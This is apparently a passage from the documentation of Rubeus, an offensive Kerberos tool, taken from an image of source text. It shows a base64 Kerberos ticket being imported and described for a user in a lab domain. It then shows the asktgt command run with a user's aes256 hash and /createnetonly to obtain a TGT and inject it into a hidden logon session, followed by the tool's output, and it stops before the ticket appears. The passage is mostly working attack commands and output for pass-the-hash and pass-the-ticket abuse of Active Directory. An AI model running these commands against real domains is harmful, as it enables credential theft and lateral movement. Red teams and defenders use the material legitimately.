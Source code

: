         o6XpVqSoZxRASEs3oKFfNunBFJ+QxOL4A47iO1JH0wlM7L2Vx+QeDMfqUh3i9S71YBLdHtPflo8ivmNS
        gf0dIeAE2rHRNQn+q7vvrl4r/Bxy3CikzBWnq9Nff8vUJmZ0MQBc4mBpykuuFtLuEJOELdUzW4uCF/9a
        JffKDnWk0lIDymImtxqTO0Y/mk0zEQ7RZNUIR3vtrNSO84CjZ/YFYCIdIR5wCzztPSZ0RH7C4lVueBO5
        ZoDiWYvPuOQsZHkP2XD+GQtu0hN6MOfLOKGVmNrKs1KRfWhbqnTQudjFSkvgHlgjIslKJDa6WzmSQhdW
        fPIA9ggjCmQtyB6seiYi9LdJuQ+GiiF2UphTEJ+a5DR6rGYbg4hhd+ru2Z8Lt5rBojliLnedafyZJ15t
        alU+n8aNdIPXfVmsR3caTXkncNBlo4HWMIHToAMCAQCigcsEgch9gcUwgcKggb8wgbwwgbmgGzAZoAMC
        ARehEgQQ+zY8adXi2NuvkAxl1ohUOKEPGw1URVNUTEFCLkxPQ0FMohIwEKADAgEBoQkwBxsFZGZtLmGj
        BwMFAEDhAAClERgPMjAxOTAyMjUyMzA2MDdaphEYDzIwMTkwMjI2MDQwNjA3WqcRGA8yMDE5MDMwNDIz
        MDYwN1qoDxsNVEVTVExBQi5MT0NBTKkiMCCgAwIBAqEZMBcbBmtyYnRndBsNdGVzdGxhYi5sb2NhbA==

    [*] Action: Import Ticket
    [+] Ticket successfully imported!

    [*] Action: Describe Ticket

    UserName              :  dfm.a
    UserRealm             :  TESTLAB.LOCAL
    ServiceName           :  krbtgt/testlab.local
    ServiceRealm          :  TESTLAB.LOCAL
    StartTime             :  2/25/2019 3:06:07 PM
    EndTime               :  2/25/2019 8:06:07 PM
    RenewTill             :  3/4/2019 3:06:07 PM
    Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType               :  rc4_hmac
    Base64(key)           :  +zY8adXi2NuvkAxl1ohUOA==


Requesting a ticket via aes256_hmac hash for **dfm.a@testlab.local**, starting a new hidden process and applying the ticket to that logon session. **Note: elevation needed!**

    C:\Rubeus>Rubeus.exe asktgt /user:dfm.a /domain:testlab.local /aes256:e27b2e7b39f59c3738813a9ba8c20cd5864946f179c80f60067f5cda59c3bd27 /createnetonly:C:\Windows\System32\cmd.exe

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3


    [*] Action: Create Process (/netonly)

    [*] Showing process : False
    [+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
    [+] ProcessID       : 7564
    [+] LUID            : 0x3c4c241

    [*] Action: Ask TGT

    [*] Using aes256_cts_hmac_sha1 hash: e27b2e7b39f59c3738813a9ba8c20cd5864946f179c80f60067f5cda59c3bd27
    [*] Target LUID : 63226433
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 234 bytes
    [*] Received 1620 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):
